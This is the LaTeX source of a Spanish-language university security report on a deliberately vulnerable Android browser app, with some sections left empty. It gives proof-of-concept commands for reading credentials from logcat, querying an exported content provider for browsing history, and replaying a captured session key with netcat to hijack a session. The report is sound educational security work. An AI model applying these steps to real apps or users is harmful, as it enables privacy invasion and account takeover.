% ------ headers globales -------------
\documentclass[11pt, a4paper, twoside]{article}
\usepackage{header}
\usepackage{config}
% -------------------------------------
\begin{document}

%-- Carátula --
\clearpage{\pagestyle{empty}% **************************************************************************
%
%  Package 'caratula', version 0.3 (para componer caratulas de TPs del DC).
%
%  En caso de dudas, problemas o sugerencias sobre este package escribir a
%  Brian J. Cardiff (bcardif arroba gmail.com).
%  Nico Rosner (nrosner arroba dc.uba.ar).
%
% **************************************************************************

% ----- Informacion sobre el package para el sistema -----------------------

\NeedsTeXFormat{LaTeX2e}
\ProvidesPackage{caratula}[2005/08/09 v0.3 Para componer caratulas de TPs del DC]
\usepackage[pdftex]{graphicx}

% ----- Imprimir un mensajito al procesar un .tex que use este package -----

\typeout{Cargando package 'caratula' v0.3 (2005/08/09)}

% ----- Algunas variables --------------------------------------------------

\let\Materia\relax
\let\Submateria\relax
\let\Titulo\relax
\let\Subtitulo\relax
\let\Grupo\relax
\let\Fecha\relax
\let\Logoimagefile\relax
\let\Resumen\relax
\let\Tags\relax

% ----- Comandos para que el usuario defina las variables ------------------

\def\materia#1{\def\Materia{#1}}
\def\submateria#1{\def\Submateria{#1}}
\def\titulo#1{\def\Titulo{#1}}
\def\subtitulo#1{\def\Subtitulo{#1}}
\def\grupo#1{\def\Grupo{#1}}
\def\fecha#1{\def\Fecha{#1}}
\def\logoimagefile#1{\def\Logoimagefile{#1}}
\def\resumen#1{\def\Resumen{#1}}
\def\tags#1{\def\Tags{#1}}

% ----- Token list para los integrantes ------------------------------------

\newtoks\intlist\intlist={}

% ----- Comando para que el usuario agregue integrantes --------------------

\def\integrante#1#2#3{\intlist=\expandafter{\the\intlist
    \rule{0pt}{1.2em}#1&#2&\tt #3\\[0.2em]}}

% ----- Macro para generar la tabla de integrantes -------------------------

\def\tablaints{%
    \begin{tabular}[t]{| l @{\hspace{4ex}} c @{\hspace{4ex}} l|}
        \hline
        \multicolumn{1}{|c}{\rule{0pt}{1.2em} Integrante} & LU &  \multicolumn{1}{c|}{Correo electr\'onico} \\[0.2em]
        \hline \hline
        \the\intlist
        \hline
    \end{tabular}}

% ----- Codigo para manejo de errores --------------------------------------

\def\se{\let\ifsetuperror\iftrue}
\def\ifsetuperror{%
    \let\ifsetuperror\iffalse
    \ifx\Materia\relax\se\errhelp={Te olvidaste de proveer una \materia{}.}\fi
    \ifx\Titulo\relax\se\errhelp={Te olvidaste de proveer un \titulo{}.}\fi
    \edef\mlist{\the\intlist}\ifx\mlist\empty\se%
    \errhelp={Tenes que proveer al menos un \integrante{nombre}{lu}{email}.}\fi
    \expandafter\ifsetuperror}


% ----- \maketitletxt correspondiente a la versión v0.2 (texto) ---------

\def\maketitletxt{%
    \ifsetuperror\errmessage{Faltan datos de la caratula! Ingresar 'h' para mas informacion.}\fi
    \thispagestyle{empty}
    \begin{center}
    \vspace*{\stretch{2}}
    {\LARGE\textbf{\Materia}}\\[1em]
    \ifx\Submateria\relax\else{\Large \Submateria}\\[0.5em]\fi
    \par\vspace{\stretch{1}}
    {\large Departamento de Computaci\'on}\\[0.5em]
    {\large Facultad de Ciencias Exactas y Naturales}\\[0.5em]
    {\large Universidad de Buenos Aires}
    \par\vspace{\stretch{3}}
    {\Large \textbf{\Titulo}}\\[0.8em]
    {\Large \Subtitulo}
    \par\vspace{\stretch{3}}
    \ifx\Grupo\relax\else\textbf{\Grupo}\par\bigskip\fi
    \tablaints
    \end{center}
    \vspace*{\stretch{3}}
    \newpage}

% ----- \maketitle correspondiente a la versión v0.3 (gráfica) -------------

\def\maketitlegraf{%
    \ifsetuperror\errmessage{Faltan datos de la caratula! Ingresar 'h' para mas informacion.}\fi
%
    \thispagestyle{empty}

    %\ifx\Logoimagefile\relax\else\includegraphics{\Logoimagefile}\fi \hfill \includegraphics{logo_dc.jpg}

    \vspace*{.07 \textheight}


    \noindent \textbf{\huge \Titulo}  \medskip \\
    \ifx\Subtitulo\relax\else\noindent\textbf{\large \Subtitulo} \\ \fi%
    \noindent \rule{\textwidth}{1 pt}

    {\noindent\large\Fecha \hspace*\fill \Materia} \\
    \ifx\Submateria\relax\else{\noindent \hspace*\fill \Submateria}\fi%

    \medskip%
    \begin{center}
        \ifx\Grupo\relax\else\textbf{\Grupo}\par\bigskip\fi
        \tablaints
    \end{center}%
    \bigskip
    %~ \ifx\Resumen\relax\else\textbf{\textsf{Resumen}} \\
    %~ \Resumen\bigskip\fi \\
    %~ \ifx\Tags\relax\else\textbf{\textsf{Palabras Clave}} \\
    %~ \Tags\par\bigskip\fi
    \vfill%
%
    \begin{minipage}[t]{\textwidth}
        \begin{minipage}[t]{.50 \textwidth}
            
\includegraphics[width=0.9\textwidth]{logo_uba.jpg}
        \end{minipage}%%
        \begin{minipage}[b]{.55 \textwidth}
            \textbf{\textsf{Facultad de Ciencias Exactas y Naturales}} \\
            \textsf{Universidad de Buenos Aires} \\
            {\scriptsize %
            Ciudad Universitaria - (Pabell\'on I/Planta Baja) \\
                Intendente G\"uiraldes 2160 - C1428EGA \\
            Ciudad Aut\'onoma de Buenos Aires - Rep. Argentina \\
                Tel/Fax: (54 11) 4576-3359 \\
            http://www.fcen.uba.ar \\
            }
        \end{minipage}
    \end{minipage}%
%
    \newpage}

% ----- Reemplazamos el comando \maketitle de LaTeX con el nuestro ---------

\def\maketitle{\maketitlegraf}
}

%-- Índice --
\clearpage{%
  \pagestyle{empty}\tableofcontents%
  \vspace{3cm}%
  \cleardoublepage%
}
%-- A partir de aquí, pongo el contador de páginas en 1 --
\setcounter{page}{1}

%
%-- Sección: Vulnerabilidades locales
%
\index{Vulnerabilidades Locales}
\section{Vulnerabilidades Locales}
%
%-- Subsección: Vulnerabilidades locales: Datos mal protegidos
%
\subsection{Datos mal protegidos}

\subsubsection{Descripción de la vulnerabilidad}
Cuando uno hace un register o un login, esto se guarda en el log de la aplicación. Esto representa una vulnerabilidad relativamente grave. Si bien a partir de la \textbf{versión 16 de la API de Android} las aplicaciones ya no tienen permisos globales para leer los logs, una aplicación que logre obtener acceso root de alguna forma (por ejemplo, a través de un exploit al kernel) tendría acceso a la claves del usuario. También se corre el mismo peligro ante una situación de, por ejemplo, robo del celular, ya que los logs pueden ser leídos fácilmente a través de \texttt{ADB}.

\subsubsection{Prueba de Concepto}
A continuación se muestra un pequeño ejemplo de cómo es posible, a través del comando \texttt{logcat} de ADB, extraer los logs con las claves de los usuarios de la aplicación.

\begin{Verbatim}[frame=single]
$ adb logcat -s "browser"
D/browser ( 1562): url is badbrowser://login?
D/browser ( 1562): login?
D/browser ( 1562): saving credentials: Username: test@test.com password 12345
D/browser ( 1562): starting sync receiver
\end{Verbatim}

%
%-- Subsección: Vulnerabilidades locales: Componentes mal exportados
%
\clearpage
\subsection{Componentes mal exportados}
\subsubsection{Descripción de la vulnerabilidad}
A partir de esta vulnerabilidad, una aplicación maliciosa podría 
acceder a los datos sensibles del usuario. 

Para analizar la aplicación en busca de esta vulnerabilidad, se desempaquetó el archivo \textbf{<<BadBrowser.apk>>}, utilizando para ello la herramienta \textbf{apktool}\footnote{Repositorio oficial de apktool: \url{http://code.google.com/p/android-apktool/}}, mediante el comando ``\texttt{apktool decode BadBrowser.apk}''. Esto generó un directorio BadBrowser, en donde se encontraron los siguientes archivos:
\begin{center}
\texttt{AndroidManifest.xml apktool.yml assets original res smali}
\end{center}

Se analizó luego el archivo \textbf{<<AndroidManifest.xml>>}, el cual se encuentra transcripto en \fig{AndroidManifest}. Uno de los primeros detalles a tener en cuenta, es la versión mínima de SDK para la cual fue producida la aplicación. En este caso, es posible obtener esa información a partir de la propiedad {\color{red}\textbf{platformBuildVersionCode}} del tag manifest. Esta aplicación fue hecha para la versión 16 del SDK, lo que permite deducir que cualquier componente al que no se le asignen \textbf{permisos explícitos}, o cualquier provider al que no se le asigne la propiedad \textbf{exported} en \emph{false}, es accesible públicamente\footnote{``Any application can access public components that are not explicitly assigned an access permission in their manifest definition. Android content provider are exported by default for applications that set either android:minSdkVersion or android:targetSdkVersion to "16" or lower. (\url{http://www.hpenterprisesecurity.com/vulncat/en/vulncat/java/android_bad_practices_missing_exported_flag_or_component_permission.html})}.

\begin{wrapfigure}{r}{0.3\textwidth}
%\vspace{-20pt}
\begin{center}

\includegraphics[scale=0.45]{android-provider.png}
\end{center}
\vspace{-20pt}
\caption{Provider}
\label{fig:android-provider}
\vspace{-30pt}
\end{wrapfigure}

Se encontró un provider {\color{blue}\texttt{``ar.sadosky.browser.history\_provider''}}, el cual tiene definida la propiedad \texttt{{\color{red}android:exported}={\color{blue}``true''}}, lo que significa que se exporta públicamente, y en donde la propiedad \texttt{\color{red}android:readPermission} no se encuentra definida. De esta forma, la aplicación está exponiendo \emph{datos sensibles} (el historial web del usuario), de forma pública, con \emph{permisos normales}, es decir que cualquier otra aplicación se encuentra en condiciones de leer el historial del usuario.

Para saber cómo una aplicación maliciosa podría aprovechar esta vulnerabilidad, es necesario entender cómo está definido el \emph{provider} dentro de la aplicación que se quiere vulnerar. Para ello, es útil primero entender qué es lo que viene a representar un \emph{content provider}, y cómo es que las aplicaciones acceden al mismo. En \fig{android-provider} se puede apreciar una representación básica de un provider en android, que no resulta ser más que una abstracción para una base de datos. 

\begin{figure}[H]
\lstinputlisting[language=XML_android]{AndroidManifest.xml}
\caption{AndroidManifest.xml}
\label{fig:AndroidManifest}
\end{figure}

En el código del programa, cada \texttt{Content Provider} está representado por una clase que extiende a la clase \textbf{\emph{ContentProvider}}\footnote{Clase nativa del SDK de Android: \url{http://developer.android.com/reference/android/content/ContentProvider.html}}, por lo que buscando dentro de la carpeta \textbf{<<smali>>} del BadBrowser desempaquetado, podemos encontrar el archivo ``\texttt{./ar/sadosky/badbrowser/HistoryProvider.smali}'', el cual contiene información sobre el provider en cuestión. 

Dado que los archivos \texttt{smali} son particularmente dificultosos de leer, otra opción es utilizar el programa \textbf{dex2jar}\footnote{Este programa sirve para transformar los binarios de Android en binarios de Java. Repositorio oficial: \url{http://code.google.com/p/dex2jar/}} para obtener un archivo \textbf{<<BadBrowser.jar>>} a partir del \texttt{apk}. Para ello, corremos el comando ``\texttt{dex2jar BadBrowser.apk}''. El binario obtenido puede ser visualizado, a su vez, con un decompilador de java, por ejemplo \textbf{jd-gui}\footnote{http://jd.benow.ca/\#jd-gui}, ejecutando ``\texttt{jd-gui BadBrowser-dex2jar.jar}''. Se realizaron estos pasos, obteniendo el código de la clase \textbf{\emph{HistoryProvider}}, como se puede apreciar en \fig{historyprovider-jdgui}. De aquí es de donde se obtuvo la URI a través de la cual el programa hace los requests, ``\texttt{\color{blue}content://ar.sadosky.browser.historyprovider/history}''.

\begin{center}
\begin{figure}[H]

\includegraphics[scale=0.475]{historyprovider-jdgui.png}
\caption{\texttt{HistoryProvider.class} en \textbf{JD-GUI}}
\label{fig:historyprovider-jdgui}
\end{figure}
\end{center}

\vspace{-30pt}
\subsubsection{Prueba de Concepto}
A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.

\begin{verbatim}
$ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
Row: 0 url_visited=about:blank
Row: 1 url_visited=http://www.google.com.ar/
Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
Row: 3 url_visited=https://facebook.com/
Row: 4 url_visited=https://www.facebook.com/?_rdr
Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
Row: 6 url_visited=https://mail.google.com/mail/
Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
&nui=5&btmpl=mobile&emr=1
Row: 8 url_visited=http://www.taringa.net/
Row: 9 url_visited=http://m.taringa.net/
Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
Te-enseno-a-hacer-una-mochila-3.html
\end{verbatim}

Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.

El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}.

%
%-- Sección: Vulnerabilidades de Red
%
\clearpage
\index{Vulnerabilidades de Red}
\section{Vulnerabilidades de Red}
%
%---- Subsección: Vulnerabilidades de Red: Pasivo
%
\subsection{Pasivo}
\subsubsection{Descripción}
El tráfico de la aplicación BadBrowser es enviado a través del protocolo HTTP. Esto significa que el mismo puede ser interceptado por un analizador de protocolos/tráfico de red. 

\subsubsection{Captura de tráfico}
Se utilizó \textbf{``Wireshark''}\footnote{\url{https://www.wireshark.org/}}, aplicando el filtro \texttt{``ip.dst==192.168.0.103 and tcp.dstport==8888''} (en donde \texttt{192.168.0.103} es la IP del servidor) para realizar un análisis dinámico que nos permitiese deducir los pormenores de la comunicación aplicación-servidor, tratando a ambos como \emph{cajas negras}. Se muestran los resultados obtenidos en \fig{wireshark-filtro}.

\begin{center}
\begin{figure}[H]

\includegraphics[width=\textwidth]{wireshark-filtro.png}
\caption{Wireshark con filtros}
\label{fig:wireshark-filtro}
\end{figure}
\end{center}

A través de la opción \texttt{Follow TCP Stream}, es posible ver e interpretar el contenido del tráfico interceptado, de forma que pueda ser visto, por ejemplo, codificado en ASCII, o en Hexadecimal. En \fig{wireshark-followstream} es posible observar el resultado de este análisis.

\begin{figure}[H]
\begin{center}

\includegraphics[width=0.7\textwidth]{wireshark-followstream.png}
\end{center}
\caption{Ejemplo transcripción del tráfico HTTP interceptado}
\label{fig:wireshark-followstream}
\end{figure}

\subsubsection{Robo de sesión}
Con el tráfico capturado, podemos realizar la misma petición desde una PC distinta al cliente original. Utilizando el comando \texttt{netcat}, se envió una copia del tráfico capturado al servidor. El resultado de esta prueba se puede observar en \fig{sync-simulado1} y \fig{sync-simulado2}, en donde se transcribieron el request y la respuesta recibida, respectivamente.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
$ nc 192.168.0.103 8888
POST /sync?email=test2%40test.com&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1
Content-Type: application/json; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 27

["YWJvdXQ6Ymxhbms\u003d\n"]
\end{Verbatim}
\caption{Simulamos un request \textbf{{\color{red}/sync}} desde otra PC}
\label{fig:sync-simulado1}
\end{figure}

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.6
Date: Sun, 22 Feb 2015 20:41:00 GMT
\end{Verbatim}
\caption{Respuesta obtenida en el cliente luego de hacer el request}
\label{fig:sync-simulado2}
\end{figure}

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
192.168.0.103 - - [22/Feb/2015 17:40:58] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
192.168.0.8 - - [22/Feb/2015 17:41:00] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
\end{Verbatim}
\caption{Output producido en el servidor de python luego del request}
\label{fig:sync-simulado3}
\end{figure}

Además, en \fig{sync-simulado3} podemos apreciar el output producido en la consola del servidor, en donde figuran ambos requests, el original producido por el cliente de android (\textbf{IP 192.168.0.103}), y el fraudulento, producido por la \textbf{IP 192.168.0.8}. Ambos son respondidos con un HTTP 200, lo que significa que las sesiones no recuerdan la IP desde la que fueron producidas, lo que en este caso nos permite robar una sesión, simplemente capturando su \texttt{session\_key}. Es decir, hacernos pasar por el usuario, con todas las implicancias que eso conlleva.

\subsubsection{Adicional: Robo de credenciales (password)}
Además de poder secuestrar la sesión de un usuario, si logramos capturar un request /login, entonces vamos a poder desencriptar la password del usuario.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 86

email=test2%40test.com&password=wmw%2Ba1kdbW5UIt3Dg1fesg%3D%3D%0A&uuid=000000000000000
\end{Verbatim}
\caption{Request \textbf{\color{red}/login} del cliente BadBrowser}
\label{fig:sniffer-login}
\end{figure}

%
%---- Subsección: Vulnerabilidades de Red: Activo
%
\clearpage
\subsection{Activo}

%
%-- Sección: Vulnerabilidades Remotas
%
\clearpage
\index{Vulnerabilidades Remotas}
\section{Vulnerabilidades Remotas}

% El servidor no guarda el email del usuario
% El servidor acepta cualquier usuario y clave como válidas
% La clave del usuario se encuentra en el servidor.

\end{document}